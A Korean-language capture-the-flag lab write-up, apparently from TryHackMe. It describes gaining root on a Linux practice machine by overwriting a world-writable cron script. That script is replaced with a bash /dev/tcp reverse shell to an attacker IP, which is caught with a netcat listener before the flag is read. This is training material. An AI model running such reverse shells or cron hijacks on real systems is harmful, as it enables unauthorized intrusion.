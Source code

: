 ## Privilege Escalation: Cron jobs
> TryHackMe의 "Linux Privilege Escalation: Cronjobs" 실습을 기반으로, crontab에 등록된 주기적 실행 스크립트의 내용을 악의적으로 수정하여 루트 권한 획득 및 플래그 탈취에 성공하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.233.141
- **공격 머신**: Kali Linux
- **사용 계정**: `karen`
- **권한 상승 방법**: 크론잡(Cronjob)을 통한 루트 쉘 획득
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속
```bash
ssh karen@10.10.233.141
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

#### 2.2 crontab 확인 및 취약점 식별
```bash
cat /etc/crontab
```
- 시스템에 등록된 주기 실행(cron) 항목을 확인하였다.

![crontab 확인](./screenshots/cat_crontab.png)

- `/home/karen/backup.sh`가 매분 실행되도록 등록되어 있었으며, 해당 파일은 karen 사용자에게 쓰기 권한이 부여되어 있었다. 이는 권한 상승의 기회를 의미한다.

---

#### 2.3 악성 스크립트 작성

```bash
vi /home/karen/backup.sh
```
- 원래는 zip 명령어로 파일을 백업하는 스크립트였으나, 이를 리버스 쉘 코드로 변경하였다.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.63.129/7777 0>&1
```
- 이 명령어는 bash 셸을 통해 공격자의 머신(10.21.63.129)의 7777 포트로 TCP 연결을 시도하며, 입출력을 해당 연결에 리디렉션함으로써 원격 쉘을 확보할 수 있도록 한다.

```bash
chmod +x /home/karen/backup.sh
```

- 변경 후 실행 권한을 추가하였다.

![악성 스크립트 수정](./screenshots/modify_script.png)

---

#### 2.4 리버스 쉘 대기 및 루트 쉘 획득

- Kali에서 아래와 같이 리버스 쉘 수신을 위해 포트 대기 상태를 설정하였다.

```bash
nc -lvnp 7777
```

- 1분 이내로 타겟 머신에서 루트 권한으로 크론잡이 실행되며, 공격자의 리스닝 포트로 접속이 이루어졌고 루트 권한의 쉘을 획득하였다.

```bash
find / -name flag5.txt
cat /home/ubuntu/flag5.txt
```

![루트 쉘 및 플래그 획득](./screenshots/root_flag.png)

- 루트 쉘 상태에서 플래그 파일을 찾아 읽어냈다.

---

### 3. 최종 결과
- 크론잡에 등록된 스크립트를 수정하여 루트 쉘 획득에 성공하였다.
- flag5.txt 파일에서 플래그 확보: `THM-383000283`

---

### 4. 배운 점

> ✅ 실습을 통해 crontab에 등록된 스크립트가 쓰기 가능한 상태일 경우, 간단한 리버스 쉘 삽입만으로도 루트 권한을 탈취할 수 있다는 점을 명확히 체감할 수 있었다. 주기적 실행 스크립트의 접근 제어 미흡은 치명적인 권한 상승 공격으로 이어질 수 있는 매우 위험한 보안 취약점임을 확인하였다.

